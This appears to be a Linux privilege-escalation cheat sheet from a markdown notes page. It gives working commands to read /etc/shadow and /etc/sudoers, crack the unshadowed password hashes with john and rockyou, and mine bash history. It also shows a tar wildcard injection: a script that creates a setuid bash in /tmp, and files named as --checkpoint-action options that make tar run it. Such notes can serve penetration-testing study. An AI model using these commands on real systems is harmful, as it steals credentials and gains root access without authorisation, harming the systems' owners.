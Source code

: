 
### Insecure File Permissions

Check if you can access /etc/shadow, /etc/sudoers, /etc/groups, ...
```
cat /etc/shadow
```

Copy /etc/passwd and /etc/shadow to files with hashes and use unshadow:
```
unshadow passwd shadow > unshadow
```

Then, use john to crack it
```
john unshadow --wordlist=/usr/share/wordlist/rockyou.txt
```

Check your history, maybe you can find some nice commands
```
history
```

or in user home directory
```
cat .bash_history
```

#### CronJobs

Check your cronjobs
```
cat /etc/crontab
```

Check if you can overwrite the script that is running via cronjob.

##### Wildcards (normal with tar)

We can do injection with that
Now check your $PATH and the let's create some malicious file:

```shell
echo "cp /bin/bash /tmp/bashroot; chmod +s /tmp/bashroot" > runme.sh
```

Change its permission to execution:
```
chmod +x runme.sh
```

Now, tar specific commands:

```
touch /full/path/to/--checkpoint=1
```

```
touch /full/path/to/--checkpoint-action=exec=sh\runme.sh
```
